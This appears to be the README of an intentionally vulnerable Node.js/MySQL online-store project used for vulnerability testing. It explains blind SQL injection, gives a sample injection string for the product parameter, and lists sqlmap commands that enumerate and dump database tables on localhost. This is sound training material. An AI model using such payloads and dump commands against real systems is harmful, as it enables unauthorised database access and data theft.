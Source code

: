 # Vulnerability testign

## About this system domain

Welcome to our online store platform, designed to help you sell your products with ease! Our software is an all-in-one solution that simplifies the process of managing your online store. Our objective is to provide you with a platform that allows you to sell your products online while managing your data, credit cards, orders, and products with ease.

Our software is built to provide you with everything you need to run your online store. Whether you're a small business owner or a large corporation, our platform offers the tools and features you need to create, manage, and grow your online store. You can create advertisements, manage every purchase and order you receive, and easily track your inventory with our intuitive dashboard.

We believe that selling things online should be easy and accessible to everyone, which is why we've created a platform that is both user-friendly and powerful. With our software, you can focus on what you do best – creating great products – while we take care of the rest. Join us today and start selling your products online with ease!

## Technologies Used
- [Node.js](https://nodejs.org/en)
- [Express](https://expressjs.com/pt-br/)
- [MySQL](https://www.mysql.com/)
- [Pug](https://pugjs.org/api/getting-started.html)
- [Knex](https://knexjs.org/)
- [Passport (Username + password Strategy)](https://www.passportjs.org/tutorials/password/)

## How to run this project
```bash
# have an instance of mysql running and change '/infra/db/connection.js'
# to access this instance
# and then you can execute the project with:
$ npm install
$ npm run migrate
$ npm run seed
$ npm run dev # can use npm run docker or npm start, also.
# an alternative is:
$ docker-compose up
```

## Scanning for vulnerabilities
Blind SQL injections (blind SQLi) occur when a web application is exposed to SQL injection, but its 
HTTP responses don’t contain the results of the SQL query or any details of database errors.

In a Blind SQL Injection, attackers never see the output of the SQL queries. Still, they may see if 
the application or web page loads normally, and discern how long the SQL server needs to process the 
SQL query that an attacker passed in the user input.[¹](#references)

In the next links, you may find interesting information about vulnerability testing and some tricks 
that will help you to defend your applications against attacks:
- [Boolean-based blind test](https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html)
- [SQLi Cheat-Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet)

Simple demonstration of the error: `?product=") OR "1"="1" OR "1" like ("`

### SQLMap
[Kali tools - SQLMap](https://www.kali.org/tools/sqlmap/)

#### Install it

```bash
$ sudo apt install sqlmap
```

#### Use it

```bash
# List databases
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --dbs

# List tables
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> --tables

# List columns
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --col
# or for one table:
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --col

# Dump table data 
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name> --dump
```

## References
 1. [What is blind sqli?](https://brightsec.com/blog/blind-sql-injection/)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
